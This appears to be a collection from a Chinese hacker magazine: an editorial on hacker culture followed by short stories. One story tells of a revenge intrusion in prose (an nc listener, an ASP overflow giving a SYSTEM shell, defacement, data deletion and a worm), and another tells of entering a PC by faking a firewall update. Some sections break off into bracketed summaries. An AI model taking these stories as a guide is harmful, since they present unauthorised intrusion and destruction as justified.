我们到底背离黑客的本质有多远，中国黑客界的精神体现在哪里，中国黑客界的出路在何方？孤独和落寞、激烈和纷争、荣辱与兴衰、纯粹与蜕变，我们走的路太多曲折与忧伤。我不能回答。商业不是路，钱不该和这两个字眼赤裸地联系起来。

### 出路：现代管理知识 + 现代信息技术

“中国黑客的大联盟时代已经过去，取而代之的将是更为精炼的小组模式”……更多的朋友在接受这样的事实——“生活就像被强 X，一边享受，一边泪流。”

在当前，低调是中国黑客圈里的共识。真正的高手，我以为有三种：一是孤独得好似乡老，神仙级别的；二是高尚得仿佛千手观音，上仙级别的；三是低调得如同菜鸟，真人级别的。一个顶级的黑客站点应该有 1-2 名神仙，3-4 名上仙，5-6 名真人……

变为最为重要的。所以要有一名御用闲人！问题的关键是在这些高手中，我们很难找到这样的人。相反，而是有太多的文盲：混混、网狂、流氓、变态、逃课者……所以中国黑站举步维艰！

我们必须面对这样的事实：当日韩黑客大战正酣的时候，中国这片圈子里却失去昔日的激情，一片寂静！中国政府网站天天被外国检测！漏洞多如牛毛的世界，却不见牛毛万分之一的好网管。空留一批高手在遗恨——“他 md 他们根本不在乎”……

是前进兼济天下还是退缩独善家珍？面对“我们是在为网络做贡献还是在做刷的”，很多人茫然了，怀疑了——“站不开了。什么为网络做贡献，都是屁话，这不过是为了名、为了利！”

做与不做才是最终的区别。偏激的人也许只是道出圈内浮躁的一面，而浮躁在圈内已很难成为主流，沉默代替了喧哗和热闹。然而还是有很多全新的大大小小的站在争先恐后地开，这样那样的黑客站点依然在为中国广大技术爱好者提供着这样那样免费或收费的服务。

中国黑客职业化、商业化的春天正在孕育和颠簸中！我们很冷，因为这是冬天；但是春天就在眼前。我们必须思考我们存在的意义，存在的价值，存在的奋斗方向！

无论人们沉默或抱怨着什么，无论人们坚持和放弃着什么，无论人们贡献和收获着什么，我们依然做着我们应该做的事情，无怨无悔！棋依然在下，而你是哪一颗棋子？你开的站，你做的事是要走向何方？

### 自由，平等，共享，互助的精神没有改变！

提到收费，很多人就会觉得一切成为了问题。经费不仅对所有黑客爱好者是个问题，而且对所有黑客站点的管理人员，对中国黑客界发展和生存，对中国黑客走向世界尖端水平是个问题。费用不是问题的关键，关键是技术实质、技术价值……收费跟自由、平等、共享、互助是没有矛盾的。

# 黑客人物面对面

## 黑站黑得出名的人是你们的偶像？这太可笑了！

中国黑客离世界先进水平相差巨大，到处都是分裂，到处都有小打小闹。中国94年出现了黑客，真正算起来可以说是99年。六年来的黑客们、黑客站点不计其数，留下一段辉煌的历史就消失了，分裂、吵架，结果是一个个版主脱离组织，自行组建黑客站点。所以中国黑客站点多如牛毛，可是实力差得很。不黑该黑的站，不做什么好事情，就知道窝里斗，黑自己的站，为了出个虚幻的名。根据了解，我们很多朋友认为黑站多的就是技术最好的，黑站黑得出名的就是高手，把那些黑站黑得出名的人当偶像崇拜。黑站黑得出名的人当成偶像？我想说这些人是多么的无知。黑个站有多少的技术水平，为什么微软没见被黑？黑个站有多出名，为什么不见老龙、陈三公子天天去黑站？黑个站有多伟大？为什么没见多少外国知名站点被黑，见的大多国内的站点？这里哪一条体现了高水平的技术，哪一条体现了真正的黑客道义？黑站对他们这些人来说不过是个发泄，是场狂舞，是“挂马、盗数据、欢迎订购”的宣传广告而已。

我从来不认为黑客就是那种眼瞪黑屏，凡人不停地对着显示屏，除了吃喝睡觉就什么都不会的植物人。

我从来不认为黑客就是那种逃课，不融入现实生活，脱离现实生活，没有人性，没有感情，没有生活经验，没有生存能力的废物。

我从来不认为黑客就是那种到处黑国内站点、盗游戏账号、盗信用卡密码、盗QQ的变态狂。

我从来不认为黑客就是一个每天除了吃饭、睡觉，生命的唯一目的就是在研究所谓技术，发现所谓漏洞的人。

我从来不认为黑客就是那种指责别人是名利之徒，而自己消极处世，把自己标榜为一个不为名、不为利的所谓“高人”的虚伪君子。

中国黑客要进步，要缩短与世界黑客技术的差距，就必须有人站出来说话，站出来接受赞扬或者诽谤。理论是迈入黑客殿堂的必经之路，书山有路勤为径，学海无涯苦作舟，我们共勉。

另外一方面，很多人抱怨黑客理论性太强，学习进步跟不上。我们想，黑客技术无非是计算机技术的延伸和飞跃。大学的计算机技术理论太多，而真正的黑客高手都是理论性和实践性很强的人，是编译高手，对操作系统有非常深入的研究。没有理论，理论不好，是永远不能登大雅之堂的。你们想提高黑客技术水平，必须付出非常的努力和巨大的精力，要学习很多东西，而且要学会自己思考，自己的思维很重要。老师讲了，你私下不去研究，不去思考，是不可能有什么收获的，只能怪你自己。黑客都是技术痴迷者，是技术研究者，是孤独的自学者，是伟大的发现者，是思维的先锋官。做黑客的快感本身就是思维的快感，懒人是不可能有进步的。希望大家能提高自身的主观能动性，加强自学，提高自身综合素质和能力，不要简单地把学习的目标树立为黑几个站那么低级的水平。这样太无知和可笑了，理论是迈入黑客殿堂的必经之路。

## 关于未来，黑客应该是品德高尚技术全面的新新人类。

从某种意义上来说，军团的VIP是提高网络安全水平的一个系统工程，决不是某些人简单想的那样是为了收些钱。我们大部分的服务是免费的，VIP只是免费服务的提升，是为了提高更高水平、更好、更系统服务的需要。毕竟我们劳动和智慧不能让我们连起码生活保障都没有。而且在VIP的历史进程中，军团不是第一个吃螃蟹的，也不会是最后一个。某种意义上来说，中国黑客商业化的趋势不可逆转。黑客的历史传统从来没有拒绝收费这一条，VIP和黑客精神并不违背。国外大部分黑客组织都有收费服务。中国黑客纯技术的有如4angle、冰血封情他们，他们也需要空间，需要赞助，如果没有经费，谁来保证中国黑客站点的健康稳定发展。http://www.juntuan.net 主站、软件站、技术论坛每天大量更新的好技术文章、好软件，新开放的免费blog，新开放的为国内黑客站点提供的免费空间，都是免费的，都是为中国网络安全事业作出的无私付出和巨大贡献。我们真诚期待中国黑客能走向成熟，走向世界尖端，而不是停留在一个盗QQ的水平。穷不是黑客，黑客不应该是为钱而犯罪，黑客应该是品德高尚、技术全面的新新人类，是有血有肉、生活正常稳定的技术拥有者，是国内网络屏障上一批受到好待遇和令人尊敬的卫士。无论你是坚持唯技术论，还是坚持红客精神，我认为它们可以完美地统一起来。我们能做得到的，能做得更好的，为何我们为了迂腐的门户之见而停滞不前呢？

## 中国第八军团祝福你们

圈内的朋友，当爱国已经不能成为理由，当政府和企业对安全还没有太大重视的现实情况下，我希望你们更多地关注现实生活，不要被技术的光环逼得自己无法生存、举步维艰。不仅要学习技术，还要学习生活、学习管理、学习沟通、学习组织。很多东西是不需要付出那么大的代价的，何苦呢？我们何必要自己折磨自己呢？太在意名利，太在意技术，太在意某种东西，对一个健全的人来说都是一种病。你们是中国黑客技术的先锋群体，你们当然必须健康，心理和身体、物质和精神上都应该是。我祝福你们，中国第八军团祝福你们。或许某天我们可以团结一致，为中国网络安全事业作出自己更大的贡献。技术研究只是贡献的一部分；贡献和黑客精神有太多的表现形式，我们应该看到。

同样我们祝福所有技术爱好者能天天进步，健康茁壮成长，成为中国网络安全事业的高素质高技术接班人。

## 中国第八军团简介

创建于1999年，是国内知名黑客站点；也是目前国内大型黑客站点之一。军团CEO陈三公子，CIO陈十三哥，主要核心成员还有max、limboy等。其宗旨为做中国互联网最有价值的安全资讯网站，成为卓越的信息安全技术先锋。


# 侠隐仙踪


## 黑客钓鱼

Gabriel

### 一、电脑和猪

不要奇怪电脑和猪怎么会牵扯上关系？实际上连我自己也没想到它们之间会发生关系，但事实上，我父亲提到我那台电脑的时候，总是心疼地说：“就那么个玩意儿，值二三十头大肥猪呢！”

我家住在农村，没有资料可以查考，但是根据我的估计，我们家至少八代以上都是无产阶级。这种根正苗红的直接结果就是：我们家居然没一个亲戚朋友是“资本家”或者“人民公仆”。所以我毕业后，只好自己去茫茫的市场中寻找自己的社会位置。经过一番寻找，终于到了一家科技公司上班，名为“科技”，其实也就是卖电脑的。

我的“喂肥猪”的日子只持续不到两年，原因是科技公司的老板在股市上亏掉了大约20万头肥猪。股票扛不住，他只好把老板姿态一扔，还没等“喂猪”的我们反应过来，就跳楼了。我只好带着我那台价值二三十头肥猪的电脑回了老家。

我给家里装了电话，买了Modem，继续着我的网上行。

于是从此我的父亲得出一个结论：电脑这东西只有一个特点——费钱。他老人家对我这项花费一直十分心痛。他甚至说，这笔钱都快够我娶个媳妇了。

电脑是和猪相提并论的，那么说到底，还是因为我这个电脑的主人有点“猪脑子”。我想全家学历最高的，理所当然是全家的希望，可是不争气的我居然跑出来下岗了，这使我的父母十分郁闷。他们的觉悟很低，他们根本不承认我的农民身份。他们就是不让我加入光荣的无产阶级。我想他们最乐意看到我成为被人唾骂的资本家。

我不想成为资本家，我除了喜欢玩玩电脑，还喜欢钓鱼。我五岁时就开始屁颠屁颠地跟着父亲去钓鱼。最好的纪录是二年级的时候两小时钓了二十几斤鱼。我至今还记得当时至少二十位亲戚邻居站在我身边欣赏我的钓鱼表演，最后他们怀疑是“什么‘鱼神’附上了我的身”，连忙夺走了我的钓竿，叫我妈把我领回家。我一直怀疑他们妒忌，那简直是一定的！

钓鱼的时候，水里的天空很蓝，很蓝……

### 二、钓鱼

我把钓鱼的文章贴到网上去了。没想到，钓来了一条美人鱼。她网名叫鱼。她在我的文章下面跟帖说要认识我。我想网络的林子大了，什么鸟（不对，不是鸟）都有。认识就认识。从小到大，还没怕过什么呢，难道还怕条鱼！

她说，你农村的吧。  
我说是，我是如假包换的农民，我的祖宗八代以上都是。  
她说，你说话真逗；我喜欢农村。  
我说，可惜你不在农村，不然让你闻闻农民伯伯正在撒向希望田野的大粪，你就不会认为农村是桃花源了。

她给我打过来一个笑脸。这时我的扫描器已经有一些结果了。不知什么时候起，我只要看到IP地址都会条件反射似的扫描研究一番。我看到她的地址是一家单位的。细看之下，我吃了一惊：难道是T公司？

于是我问，你在什么单位？  
“鱼，25岁，身高1.66，非农户口，70%的人反映是美女，就职于T公司，职位是总经理办公室秘书。”她一下子返回了这么多信息。

果然是T公司！在我看来，T公司就是IT界的圣殿！T公司的工程师都是圣徒！我的心跳不觉加快了。我发现自己打字的手在微微颤抖，我好久没这么激动了……上一次这么激动似乎是高考时……

我说：你是天使，T公司是IT的圣殿，你是圣殿里的天使。

她说：可惜我是因为在圣殿里才成为天使的。你是怎么知道我们这座圣殿的呢？

我说：我称天使不是因为你在圣殿里，而是因为你混进圣殿的能力。我也是天使，所以我知道T！另外，我还知道你喜欢穿F牌的衣服！其实我也喜欢F的衣服。我有点惊奇这个白领居然也会喜欢F品牌的衣服？而不是那些价格吓人的名牌。

“啊！你怎么知道？”她惊叫起来，“难道你看到了我的照片！？”在她电脑里的12张照片中，有10张是穿戴着F牌的服饰。

“我最喜欢那张穿牛仔的，蓝底白花头巾说明了你的纯洁。”我这样告诉她。

“难道，你进入了我们的系统？”“这怎么可能！我们是T公司！我们的工程师的技术优秀得近乎BT！我们的系统……”

“我只进入你的电脑，我只看了你的照片而已。是的，你们的系统很牢固，已经公布的漏洞你们都堵上了，而且是你们自己堵的，不是用的别人公布的补丁。你的这台甚至还被你自己装了‘堵叫’‘天安’的防火墙，但是我之所以能进电脑，正是因为你的防火墙。你把它设置了自动探测新版本，而我正好伪装成它的新版本进来了！呵呵，我曾经是‘天安’的研发小组成员之一……”

“天哪！你在圣殿的墙上开了一扇门！你是撒旦！”

“错了，我是Gabriel，是吹着喇叭的报喜天使。”

“是啊，会钓鱼的报喜天使。可是天使怎么会闻着大粪味在河边钓鱼呢？”

“呵呵，因为耶稣诞生在马槽里。”

她沉默了。

她沉默了好一会儿：

终于，她说，我有点怕，我不怕黑客，但是我怕会钓鱼的报喜天使。

“为什么？”

“因为，我是鱼。”

### 三、买个好钓鱼竿

鱼下线前删除了她开门揖盗的防火墙，规规矩矩地关在门外了。报喜天使只留下了12张鱼的照片。那蓝底白花头巾像极了水里的天空。

我的鱼竿是根紫竹，是我自己到竹园里去选了一个多小时才砍下的。多年的磨搓让竹身的金黄更添了一抹亮光。本来我也到渔具店里去看过，那些碳钢的鱼竿很轻、很直，很有弹性，但是一根好鱼竿要一头肥猪的钱。

一个有薄雾的清晨，我在完成一个程序后，还没有丝毫睡意。于是拿起了那竿紫竹。嗅着河边依稀带着绿色的雾气，我探出了一竿金色的希望。漂在蓝绿的水面荡漾间悠闲着，悠闲着，仿佛整个世界都在这样荡漾地悠闲着。可是世界毕竟要动的。漂子动了，动得很清晰，一下，一下，再一下，突然，两颗漂子浮出水面；这是鱼“送钩”了，它想跑了！我猛提鱼竿。鱼竿顿住了，是条大鱼！这个大家伙马上开始了挣扎，它先是向河心冲去，但是钓丝牵得它回了头，于是它向左冲去，三四寸宽的尾巴在水面上划了一下。我向后小退了一步，稳住了步子和它认真周旋。大约半小时，那个大冲大撞的大家伙，终于安静些了，我把它提到水面，是个近两尺长的大家伙。这家伙的眼睛漆黑，盯着我，像“白水银里的一点黑水银”。我要把它提上来。我的鱼竿弯得像把弓了。到了半空中，那家伙做了一下垂死挣扎，但是只听“啪”一声，我的鱼竿折了！那家伙扑通地掉回水里，也许是挣晕了，半晌，它才慢慢地带着半截残竿游走了。慢慢地，似乎悠闲的样子，其实我知道，它是真的累了……

父亲并不为儿子会钓鱼而骄傲。在劳作了一整天后，他回到家，发现儿子在那台值二三十头肥猪的玩意儿前坐得像根木头。他无名火起，拉下了电闸……

父亲，真的这么做了。

鱼上网了。她问，天使为什么不到人间播洒上帝的福音呢？

播洒完了福音之后，天使干什么呢？我反问。

她笑了，完了你再回去钓鱼啊。

我说，我现在不是正在钓着嘛。

她沉默了两分钟，终于说，其实你可以在播洒福音的时候为自己添根好鱼竿。

我也沉默了两分钟，终于说，好吧，我的旧鱼竿正好在今天断了。

### 四、天使在圣殿里

车一进站，我就从车窗看到了鱼。牛仔，蓝底白花头巾，亭亭玉立地在那里……

（以下为该节连续叙事正文）

她说，圣殿没有后门。我说，我曾经在圣殿的墙上开过侧门……

“请各位把自己的材料都收起来，我们将用我们公司的方式对你们进行考核，以确定各位是否适合我们的工作。”

“这是我们新建的设计室，一共有120台电脑，分四个设计组，每组30台电脑……”

“……之内组建好这个网络，并且建立一套保密安全系统。公司为这个网络提供了10000元的经费，无论你们索取与否，只要这个网络建成这笔钱都归你们了。但公司对这笔钱的分配留有最终解释权。在这一周里，我们将全程考核你们。当然，双方随时都可以提出退出。”

“招聘考试这么特别！”

接下来的一周，我的生活就是在布线、配置网卡、配线、安装软件中度过的……

蓦然间，我发现钓鱼的日子离我遥远起来了！

### 五、阉了苍蝇

最后，我顺利通过了考试。T公司给我的职位是：MIS主管。通过考试后，被那个台湾花白头发老爷子（老总）接见时，他宣布这个决定的……

（以下为该节连续叙事正文）

“我举起笔记本，说：‘给我半小时。’”

“半年后，我在那个程序的最后，写下了一段：

三侠试刀法。甲挥刀，一只苍蝇应手而成两截。乙挥刀，苍蝇落地，细看，伤一足！丙挥刀，苍蝇飞撞墙而死。丙叹息：‘不就是阉了你嘛，何苦轻生呢！’

我喜欢在程序里写入让人发笑的冗余代码。程序员也是人，冗余代码是展示个性的地方。”

“知音如不歇，归卧故山秋！”亭子上的人下来了。她把手里的埙给我，我噙到唇边一吹，发响。

回到公司，他拿来笔记本让我看一个东西……这是一个截获信号的装置……

“这是M国最先进的技术……”

“是的，我设法弄到了绝大部分。只剩下这最后的部分了。我没辙了。”

“你的那位老师，本来是最适合完成这个工作的。可惜，他半年前，得肝癌去世了。”

“我们？我们是同一人种，是炎黄种。大和种也在研究它。如果大和种领先，炎黄种就落后了，就要挨打。”

……

“那次，那个日本留学生拿着我失败的设计作业，到处说这是最好的中国同学设计的……”

### 后记

我把笔记本交给她的时候，她正在收拾行装。她已经嫁给司部长了。她看完程序，把笔记本拆开销毁，然后和我一起把残骸扔进了太平湖……

她把埙给了我。她说，这是黄帝时期就有的东西。她赴海外……媒体宣布日本经济继续滑坡一次，鱼到我的宿舍来，塞给我用纸给她写了《勇敢的心》，她听得热泪盈眶……


## 黑的代价

★黑冰★


我和飞霜是在一个叫“中国炎客联盟”的组织里认识的，那个组织里全都是顶级的黑客。也许是有缘吧，我和他一谈论起技术来，就有一种相见恨晚的感觉。飞霜平日里是一个很出色、很受人喜欢的男孩子……在旅途中，我想着我们在网上合作了这么多次，见了面有没有机会面对面地合作呢？

他大概有一米九的个子，比我高出整整一个头，戴了一副眼镜，留着长长的头发，看起来有点像艺术家。我们在北京见面后，一起聊天、拍照、吃饭。饭后他讲了很多自己的经历：从家庭、入侵系统、被抓后的遭遇，到他坚持下去的想法……我劝他把技术用于更有意义的方向，但他说自己在现实里孤独，只能在网络里找到归属感。

后来飞霜带我去见他的朋友，大家对“黑客”身份很好奇。我也和他妹妹聊起网络知识，告诉她黑客并不是随便就能当的，要先打好基础。正聊着，飞霜接到电话，脸色越来越难看。沉默片刻后他说：朋友公司的电脑被人入侵了，丢失了很多数据，损失了大约有好几万。公司要追究他的责任。他停了一下说：“他是我最好的朋友了，他家里很穷，现在在一家小型公司里做网管，工资也很低，现在发生了这样的事情，让我朋友怎么赔偿！”

“查出来是谁入侵的吗？”  
飞霜点了一下头：“嗯。”  
“是谁？”  
“是另一家公司，两家公司互相竞争，这家公司争不过我朋友所在的公司，所以就用了这种下三滥的手法！我今天晚上一定要为我朋友报仇！以其人之道还治其人之身，让他们的公司也尝一下这种滋味！”

“但是这样做，你很可能会惹上麻烦啊。这个网吧里的IP都是固定的，一共就有几十台机子，服务器上的IP减去160就是机子的座号了！比如192.168.0.168减去160，那么座号就是8号！很容易被查到。”

我说：“要不咱们用代理吧，或者登录肉鸡上也行！”  
“没事，不考虑这个了，我就是要让他们知道是我干的！”飞霜咬着牙说。我看了他一眼：“好，那我帮你！”

到了傍晚，天气突然阴下来了，接着就下开雨了，而且伴随着电闪雷鸣！我猜想飞霜的心情现在就和这天气一样吧，肯定是很复杂的！看着飞霜那两眼发黄的表情，我可以体会到他心里的那种愤怒。

“12点了，咱们开始吧！”飞霜看了我一眼说。“你负责网站，我负责进他们的服务器。”  
“嗯！”

飞霜就坐在我的旁边，他把电脑重新启动了！我把工具箱打开，把工具准备就绪！作为一名黑客，都有自己专用的软件，而且是不往外传的，我也一样！

我找到他们公司的网站，那是一家证券公司。用扫描器扫了一下，发现只开了80端口。在对方的网站上有ASP网页，再加上80端口返回的banner信息，我断定对方是Win2000系统，支持ASP，这就好办多了。我手头正好有一个ASP的远程溢出程序，这是我前些日子向一位俄罗斯黑客死缠硬磨，最后用好几个攻击程序才换来的。当然这个程序利用的是一个新的、未被公布的漏洞，绝对不是2002年公布的那个ASP漏洞。就用这个来试一下吧！

我先运行了nc在我的电脑中监听了一个168端口，然后运行了那个ASP溢出程序winaspex.exe，并在后边输入了必须的参数：对方的IP地址、连接的端口（80）、我的IP地址以及监听的端口（168）。很快地，在我监听的168端口上就得到对方的cmd shell，而且是拥有system权限的！

没想到我那么容易就进来了！

我转到D盘的盘符下，dir了一下，发现了index.asp，于是我做了一个要覆盖的页面。在上面写了这么几句话：“人外有人，天外有天，在入侵别人的同时有没有想过自己的网络安全！以血还血，以牙还牙！既然你能做出这样的事情来，那么我们也不是吃干饭的。市场竞争本来就是公平的，但是如果用到了一些下三滥的手法的话，那么就不遵守市场规律了，这样只会给自己带来噩梦和灭亡！！！”最后我还留下我的QQ号。

我扭头看了一下飞霜，他自己写了一个密码文件，试图猜出管理员密码！我没有打搅他，这个时候他需要的是清醒冷静地思考。

我点了一根烟，走到窗户前，外面下着雨，还在电闪雷鸣！我在想：如果他们的管理员看到自己的主页被黑之后心里会想些什么！是怪自己对网络安全的疏忽？还是怪自己曾经入侵过别的系统，现在惹祸上身？早知如此，何必当初呢？

我慢慢地走到飞霜后面，他的双手在键盘上敲打着。

飞霜成功地进入对方的服务器系统！看着他愤怒的眼神，真令人恐惧！飞霜删除了他们大量的数据资料以及公司的机密文件！他完全被愤怒燃烧了。看着他所做的这一切！我觉得他真像一个战场上勇猛杀敌的勇士！

他删完了数据以后，对着屏幕看了半天，然后，他往对方服务器上面上传了一个蠕虫病毒，并远程运行起来！这回他们的系统恢复恐怕没有那么简单了。

这些完成后，他点着一根烟，看了我一眼，站起来走到窗户前面，眼睛望着窗外，神色很深重，他在沉思……

对方的系统被攻击了大约有2个小时左右，他们的管理员通过我留在主页上的QQ号找到了我，问我为什么要这么做？我说不为什么，你看看主页上留的字就会明白你曾经做过什么，为什么会遭到报复了！那个管理员没有再说话！

过了不到5分钟，一个网名叫“金钱豹子”的、并且自称为经理的人加我的QQ号了。

“你为什么要攻击我的系统？！”  
他真是开门见山！  
“因为你们的行为！因为你们的作风！因为你们的人格！”  
“我现在就报警！我要让你坐牢！你这是在犯罪！！！”  
“哈哈哈，我攻击你算犯罪，那么你攻击别人就算合法了？”  
“我不和你说那么多，我现在就要报警，我要让你坐牢！”飞霜一直在后面看着我，说了一句：“让我来给他说！”我起身把位置让给飞霜。

“是我做的！我就是看你们这些卑鄙行为不顺眼，黑你没商量，你能把我怎么着？”  
“好！你有种，你等着吧！我今天晚上就要让你进监狱！”  
“我现在就在这里等着你，你尽管来抓我！”飞霜态度很强硬！我想如果那个人在他面前的话，我想飞霜很可能会甩他两耳光。

后来那个自称是经理的人就下线了，我以为他真的去报警了。问飞霜应该怎么办？飞霜说：“没事，他们也只是个小型公司，而且我听我朋友说他们也没有合法的执照。如果去报警的话，就没拿汽油扑火，自取其辱！”我没有说话，只是轻轻地点了一下头。

后来的几天里，那家公司也没什么动静。我们在一起谈天说地，可以说是无话不谈。他跟我谈他孩提里发生的一些伙伴事，我也跟他谈我童年里的一些糗闻。我们互相开导，互相鼓励，彼此了解得更深了。

在北京呆了一个星期了，我说我要回去了。飞霜说他舍不得让我走，他说这几天让他找到了童年时快乐的感觉，希望我再多住几天！我因为马上要开学了，所以回绝了他的好意。飞霜也没再说什么。

晚上他把我送到火车站，说：“黑冰，谢谢你在北京的这些日子，你开导了我，让我不再封闭自己，让我有了一个真正的朋友！”飞霜的眼睛有点红。

回到西安以后，我好久没有上网，不知道飞霜那边怎么样。后来听他的朋友告诉我：飞霜被抓了！在我走的第二天，飞霜又一次进入那家公司的系统，并且把公司好几台服务器都感染上了蠕虫病毒。那家公司最后报了案，网络警察当天就把飞霜带走了，在上警车的时候，飞霜一句话都没说！

从那以后我在网络上好久没有见到“六月飞霜”的名字出现。听说他现在在一家大型网络公司里做安全检测……

夜已经很深了，我睡意全无，我起身走到窗户前，抬头看见满天的繁星，看着遥远的天空，心里默默地祝福：飞霜，希望你以后一直顺顺利利、开开心心地走下去……

# 侠隐仙踪

### magic dog.

鹏、航和我都是同一所计算机学院的学生。

鹏和航的技术都是没说的。想当年，学校刚把入侵校服务器的家伙揪出来时，鹏和航却一起把那家伙的IP交给了学校。为此二人一下子成为全校的焦点人物，不少MM对他俩崇拜不已，当然也不乏投怀送抱的，但都被鹏或航无情拒绝，理由是已经有女朋友了。众MM伤心之余问其女友是谁，皆曰：室友良友，已恋数年，芳名电脑，E名：PC！结果遭来MM们的一阵白眼。同校的男同胞们却羡慕又嫉妒，要不是学校明文规定：不准随地吐痰！估计他俩早已淹没在群众的口水之中了。

我确切地说尚属一未发育完全的菜鸟，能与鹏和航这两个全校的焦点人物称兄道弟，实属难得。混在一起倒也挺自豪的，可好景不长，鹏和航无视当今社会主义，以知识为诱饵，常常剥削本人劳力和剩余价值。可怜我一天生的好心肠，自我安慰为学到知识这点付出算什么，即使上刀山、下火海也不会哼一声，甚至以身相许……我看这个还是算了吧！

“喂，老三（就是我啦）帮我带盒泡面回来，等下给你钱。”  
“哎！顺便也给我带盒，等下给你钱。”

“哎，又得出血了。”我暗自摇头无奈道。在他俩的时间观念里，“等下”即等中国捧走大力神杯后……

冬去春来，万物复苏。校园里一派春色满园、生机勃勃的景象，也造就了大批“花痴”如雨后春笋般出现，遍布每个角落。以往，鹏和航对这些“世界”都是熟视无睹，回寝室对着电脑，达到忘我境界，似乎硬是要“另类”一下。但是他们却不知道有句话叫做：一切与自然规律做斗争的人都是瞎子点灯——白费劲！

不过今年鹏和航的确有点“发春”的迹象。就其穿着而论：  
以前，他们从外面回学校时总被看门的老大爷问住，那老大爷一直对他俩说推销员不得入内……

大家一起到校外闲逛，碰巧路过某工地，鹏却被一工人拉住往一处拽，边拽还边笑着说：“嗨，哥们儿，中午开饭了，还去哪呢？”

吃完饭，航随手一放饭盒，躺在食堂外的一张椅子上竟睡着了，醒来后发现饭盒里多了几个硬币……

还有、还有……（鹏、航：你再说，再说我们黑你机子！）

就拿今天来说，他俩不知道去哪里弄了个新发型，摩丝抹得比猪油还亮，一身黑色的西装加上一双和头发一样黑得发亮的皮鞋，让人以为他俩赶着拍《黑客帝国》呢！

见状，我把鹏拉到一阴暗角落，尖起嗓子阴森森地质问他，企图摧毁其小小的心理防线。鹏先是一惊，后又一脸诡异地把嘴凑到我耳朵旁，嘀嘀咕咕了一阵。大致意思是：他和航觉得大学四年都快毕业了，还没恋过一次爱，说出去丢人，于是想来个“最后的晚餐”。偏偏又和航看中了同一个女生，于是二者都尽最大努力打扮自己，改变自己形象以吸引那MM的注意。我说你们这样下去也不是办法啊，反正你们都是黑客，不如比一比谁能先侵入那MM的电脑，输家自动退出……鹏眼睛一亮，一拍我肩膀说：“老三，同窗四年，这次是你最聪明的一次了！”我也挺激动地说，鹏，你再不把你的鸟手拿开，TMD我就偏瘫了！

于是在一个月黑风高、伸手不见五指的夜晚。地点：学校某寝室；人物：我，鹏，航；事件：一场由我策划的激战——一触即发。作为裁判的我，只要双手一挥，大喝一声：“二位大哥，请开始吧！”鹏和航便开始入侵那MM的PC……

鹏PING了一下那MM的IP，鹏做了个OK的手势，示意我可以开始了（到底谁是裁判）？

时间一秒一秒地过去，鹏和航都开始在扫描端口，然后分析得到的信息，片刻之后又开始敲击键盘了。看着鹏和航的脸都不约而同地严峻起来，我想那MM的PC一定拥有坚定的革命立场，不是轻易可以攻破的。溢出、IPC$入侵、暴力破解……

他俩用了很多方法，可是仍旧不奏效。也许是久久不破，鹏和航越来越沉不住气了，敲击键盘的力度也越来越大，啪啦声不绝于耳，弄得上铺的一个兄弟揉着睡意朦胧的眼大骂，说什么危害了他睡觉休息引起内分泌失调、肾功能衰竭从而引起不育不孕……

“嘘……小声点，他俩正在入侵XXX的电脑呢！”我见他口若悬河，大有不说完男人可以患的所有病誓不罢休之势，趁早让他打住。

上铺那兄弟倒是真的一下子安静了。看他那表情似乎在回忆什么，半晌他大叫一声，一拍脑袋说道：“哦，我就说嘛，咋这个名字这么熟悉。我劝你们别入侵XXX的电脑了，她男朋友就在我老爸的公司里做防火墙的开发、研究工作呢……”

鹏和航的手指同时僵住了，四周充满了杀气，空气似乎也凝住了，耳中只听见主机“呼呼”的声响和令人毛骨悚然的呼吸声……就像平静的海面下积聚着一股愤怒的力量，只要一爆发出来，势必生灵涂炭（上铺的兄弟被鹏的键盘击中胸部，随即一个漂亮的空中飞弹——二百二鼠标，从航的手中“发射”，直袭上铺），怒吼不止（鹏、航异口同声：为什么不早说！），风云随之突变（显示器被摔得一闪一闪的，四周的光线也是忽明忽暗），无不被之所慑（上铺那兄弟摸着后脑勺被弄得一愣一愣的），无不被之所征服（看气氛不对劲，他只好又倒头继续Sleeping……）。

最终在毕业之际，鹏和航也没找到一个女生“罗曼蒂克”一回。后来，我常常拿此事开涮：“哎哟，没想到二位仁兄也属性情中人，但实不该‘平时不烧香，临时抱佛脚’，罪过，罪过……”

大学的时光一去不复返，但那段美好的时光却永远留在我的记忆中，就像一坛酒，随着时光的流逝，越来越香，越来越纯……

夜深了，我一边翻看《黑客X档案》，一边敲打着键盘。……（正文为三栏连续小说内容，含大量人物对白与叙事，标题为《王国凶铃》对应的主体文本）

## 菜鸟江湖之师与徒

sagi

老蔡，今年38岁，**市**局**科的科员，工作倒也清闲，大多数时间也就是看看报纸、喝喝茶，后来单位有宽带后，就改成了上网看新闻、看在线电影、上联众打升级、斗地主。玩玩这些，老蔡倒也是熟练，可对于电脑其他的，就一窍不通了。

蔡飞，今年14岁，初二。虽说年龄不大，可看《黑客X档案》却已经整整一年了，天天泡X档案的论坛，在菜鸟中倒也小有名气，因其姓蔡，所以他的那帮菜鸟朋友们都称他为“小菜”。提起他学习黑客技术的由来，还得从一年前说起，那时，蔡飞……

正疯狂地玩着传奇，不敢在家中玩，就天天偷跑到附近的网吧去练级、去PK。后来，不知怎么的，传奇的账号却被人偷去了，小菜心疼呀！现在每年提起那件事时，小菜都还心有余悸呢。最后，是小菜花了九牛二虎之力，打电话给盛大公司，才找回来的密码。自那以后，小菜暗暗发誓，要学好网络技术，不被人欺负！在朋友的介绍下，小菜来到了X档案的论坛上灌水学习，又坚持不断地看《黑客X档案》杂志，倒也小有所成。最起码，现在对他来说，偷个传奇账号、QQ号、找个肉鸡什么的，那是小菜一碟。

这天晚上，刚吃过晚饭，小菜就钻进了屋，猛抬头，却突然发现自己老爸早已坐在了电脑前，手里居然还捧着一本自己买的《黑客X档案》在那儿看。

“老爸，你在干吗呀？”小菜问道。  
“你看不到呀，我不正在学习吗。”老菜回答。

“哦，怪事天天有，可今天特别多哟！以前，都愁老爸要自己去学习，今儿个是头一次，居然看到老爸自己这么自觉地去学习的，这是不是太阳要从西边出来了。再说，就老爸那电脑臭水平，居然还看《黑客X档案》。”小菜心里想道。

“老爸，你学这个也不会在今天，反正那杂志你也看不懂！你先去看看电视，让我上会儿网吧！”小菜说道。

“上网？不行。小孩子知道什么上网，去，赶快回屋写作业去。从今天起，电脑归我使用了，我得抓紧时间学习。”

看来要想在家里上网是不可能了，还是去网吧吧，反正都一样。于是，小菜就悄悄地溜出了家。

附近的“网虫网吧”是小菜除家以外最爱去的地方。

